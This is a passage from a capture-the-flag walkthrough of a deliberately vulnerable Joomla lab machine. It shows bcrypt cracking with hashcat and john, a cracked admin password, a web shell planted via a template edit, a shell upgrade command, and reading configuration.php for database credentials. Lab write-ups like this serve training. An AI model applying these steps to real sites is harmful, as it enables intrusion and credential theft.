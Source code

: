 BCRYPT??? Oh lord this is why its a hard room

Its gonna take years for me

```
hashcat -a 0 -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt
```

By God this is painful...I hash at 13H/s...I can't go through rockyou with that...the machine only lasts 1 hour for me (free)

Even with john its slow and takes forever`

```
$john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
0g 0:00:01:13 0,02% (ETA: 2021-11-15 23:37) 0g/s 38.93p/s 38.93c/s 38.93C/s skater1..firefly
```

ETA is in 5 days!! 5 fricking daaays XD

I had to look for a writeup that had the answer (close it after you get the pass to limit spoilers)

`jonah : spiderman123`

We use those at administrator page and login

immediately look for extensions, plugins or templates pages for uploads or custom code possibilty

in extensions/templates there are 2 templates we can customize

we cant upload directly so we have to modify a page or create one

I created `shell.php` (what a discrete name)

my activation subdir is `/templates/beez3/shell.php`

I visit that and get access on netcat

ugly shell evolves into better TTY

```
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$
```

we can't get user flag yet

```
cd jjameson
bash: cd: jjameson: Permission denied
```

let's check the website directory for creds..as there is a mysql db..the php files might help

`cat configuration.php`

```
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
```